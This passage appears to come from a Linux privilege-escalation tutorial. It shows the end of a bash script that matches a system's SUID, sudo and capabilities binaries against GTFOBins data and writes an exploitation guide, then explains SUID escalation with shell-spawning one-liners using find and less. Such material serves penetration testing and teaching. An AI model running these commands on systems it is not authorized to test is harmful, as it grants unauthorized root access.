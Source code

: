                 # Try to find capabilities-specific exploitation in GTFOBins data
                cap_example=$(awk "/^  $bin:/,/^  [a-z0-9_-]+:/" "$GTFOBINS_FILE" | grep -A 10 "capabilities:" | grep -v "^  [a-z0-9_-]\+:")
                
                if [ -n "$cap_example" ]; then
                    echo "$cap_example" | sed 's/^    /    /' >> exploitation_guide.txt
                else
                    echo "    No specific capabilities exploitation found in GTFOBins." >> exploitation_guide.txt
                    echo "    Check manually at: https://gtfobins.github.io/gtfobins/$bin/" >> exploitation_guide.txt
                fi
                echo "" >> exploitation_guide.txt
            fi
            
            echo "" >> exploitation_guide.txt
        fi
    done < "$EXPLOITABLE_BINS_FILE"
    
    echo "[+] Exploitation guide generated: exploitation_guide.txt"
fi

echo "[+] Analysis complete! Check the following files:"
echo "  - exploitable_summary.txt: Summary of potentially exploitable binaries"
echo "  - exploitation_guide.txt: Exploitation examples for identified binaries"
echo "  - suid_binaries.txt: All SUID binaries found on the system"
echo "  - sudo_binaries.txt: Binaries you can execute with sudo"
echo "  - capabilities.txt: Binaries with special capabilities"
echo ""
echo "For more information, visit: https://gtfobins.github.io/"
```

### SUID Binary Exploitation Techniques

Set User ID (SUID) binaries run with the permission of the file owner rather than the user who started it. When the file owner is root, this can lead to privilege escalation.

#### Common SUID Exploitation Methods

1. **Direct Command Execution**:
   Many binaries allow command execution through various means:

   ```bash
   # Example: Using find with -exec
   find . -exec /bin/sh -p \; -quit

   # Example: Using less to spawn a shell
   less /etc/passwd
   !/bin/sh
   ```

2. **File Read/Write**:
   Some binaries can read or write files with elevated permissions:
